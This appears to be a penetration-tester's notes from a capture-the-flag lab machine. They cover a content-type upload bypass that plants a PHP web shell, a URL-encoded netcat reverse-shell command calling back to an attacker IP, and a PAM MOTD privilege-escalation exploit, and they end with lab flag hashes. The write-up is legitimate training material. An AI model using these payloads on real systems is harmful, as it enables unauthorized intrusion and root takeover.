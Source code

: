 LESSON LEARNED: 
- Always use gobuster medium and common
- If Creating your own torrent file wont do , just download real one
- always check for files especially user home files
- update finding files skill / note
- update upload bypass notes


port 22
=========
 OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)

port 80
============
/test
Suhosin Patch 0.9.7

/torrent
can register account to login and upload file but php not allowed


/rename
allow file rename
?filename=index.html&newfilename=test.html
No such file or directory in /var/www/rename/index.php on line 4

upload kali image downloaded from kali official website
edit torrent and add screenshot

file extension : test1.php
content-type : image/png

looks like file name is not filtered but content-type is filtered


/torret/uploads/ewqo9129321-test1.php

?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.26%204567%20%3E%2Ftmp%2Ff

cat /etc/passwd got user george
at /home/george found .cache/motd.legal-displayed 

quick google "motd.legal-displayed exploit" found
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation

wget it from localhost to remote machine and run
./exploit.sh

root : dac9f0feac2821f258795a2570209e36
user : 07315850a09835d330fae25fa6df0612


